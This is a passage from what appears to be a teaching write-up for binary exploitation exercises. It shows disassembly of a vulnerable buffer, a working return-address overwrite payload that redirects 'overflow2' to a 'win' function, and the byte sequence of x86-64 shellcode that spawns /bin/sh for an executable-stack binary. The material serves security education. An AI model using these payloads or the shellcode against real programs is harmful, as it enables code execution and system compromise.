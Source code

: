 ```
  4011a6:       48 8d 45 e0             lea    rax,[rbp-0x20]         # <---- buffer `name` referenced here
  4011aa:       ba 40 01 00 00          mov    edx,0x140
  4011af:       48 89 c6                mov    rsi,rax
  4011b2:       bf 00 00 00 00          mov    edi,0x0
  4011b7:       e8 a4 fe ff ff          call   401060 <read@plt>
  4011bc:       48 8d 45 e0             lea    rax,[rbp-0x20]         # <---- and here
  4011c0:       48 89 c6                mov    rsi,rax
  4011c3:       48 8d 05 72 0e 00 00    lea    rax,[rip+0xe72]        # 40203c <_IO_stdin_used+0x3c>
  4011ca:       48 89 c7                mov    rdi,rax
  4011cd:       b8 00 00 00 00          mov    eax,0x0
  4011d2:       e8 79 fe ff ff          call   401050 <printf@plt>
  4011d7:       90                      nop
  4011d8:       c9                      leave  
  4011d9:       c3                      ret 
[...]
```
So we know that we find the saved base pointer at offset `0x20` and the return
address at offset `0x28`.
Therefore, sending a payload with the address of `win` at the right offset
results in execution of `win` (before the program crashes):
```
$ python -c "import os, struct; os.write(1, b'A'*0x28 + struct.pack('<Q', 0x401156))" | ./overflow2
win is located at 0x401156
Please enter your name: Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAV@!
Success!
[1]    1619075 done                              python -c  | 
       1619076 segmentation fault (core dumped)  ./overflow2
```


### Bonus Part 3: Executing Shellcode


The program is almost the same as before, but in contrast to `overflow2` there
is no `win` function we can call.
Luckily, the stack of `overflow3` is now executable, so we can inject our own
code into the buffer and execute it.:
```
$ readelf -l overflow2 | grep -A1 STACK
  GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RW     0x10
$ readelf -l overflow3 | grep -A1 STACK 
  GNU_STACK      0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x0000000000000000 0x0000000000000000  RWE    0x10
                                                          ^
                                                          |
                                                          E stands for "executable"
```

The code we will inject is commonly called "shellcode", since it is common to
spawn a new shell to be able to execute arbitrary commands.
One example of such a shellcode is given in the exercise.
If we assemble the code, we get the following byte sequence:
```python
shellcode = b'\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x50\x48\x89\xe7\x48\x31\xc0\x50\x48\x89\xe6\x48\x89\xe2\x48\xc7\xc0\x3b\x00\x00\x00\x0f\x05'
```

